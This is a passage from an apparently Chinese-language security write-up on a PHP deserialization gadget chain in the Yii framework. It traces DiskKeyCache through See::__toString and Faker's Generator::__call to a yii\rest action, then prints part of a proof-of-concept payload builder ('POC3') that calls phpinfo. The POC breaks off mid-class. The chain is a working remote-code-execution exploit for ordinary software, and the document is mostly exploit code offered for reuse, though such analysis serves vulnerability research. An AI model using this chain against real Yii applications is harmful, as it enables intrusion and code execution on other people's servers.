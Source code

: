```php
    public function clearKey($nsKey, $itemKey)
    {
        if ($this->hasKey($nsKey, $itemKey)) {
            $this->freeHandle($nsKey, $itemKey);
            unlink($this->path.'/'.$nsKey.'/'.$itemKey);
        }
    }
```

这里的`$this->path`也可控，可以看到这里是进行了一个字符串拼接操作，那么意味着可以利用魔术方法`__toString`来触发后续操作。

全局搜索`__toString`

文件路径`\yii\vendor\phpdocumentor\reflection-docblock\src\DocBlock\Tags\see.php`

使用`See.php`举例

```php
public function __toString() : string
    {
        return $this->refers . ($this->description ? ' ' . $this->description->render() : '');
    }
```

可以看到`$this->description`可控，又可以利用 `__call`

利用链3

```php
Swift_KeyCache_DiskKeyCache -> phpDocumentor\Reflection\DocBlock\Tags\See::__toString()-> Faker\Generator::__call() -> yii\rest\IndexAction::run()
```

##### POC3

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'phpinfo';
            $this->id = '1';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['render'] = [new CreateAction(), 'run'];
        }
    }
}

namespace phpDocumentor\Reflection\DocBlock\Tags{

    use Faker\Generator;

    class See{
        protected $description;
```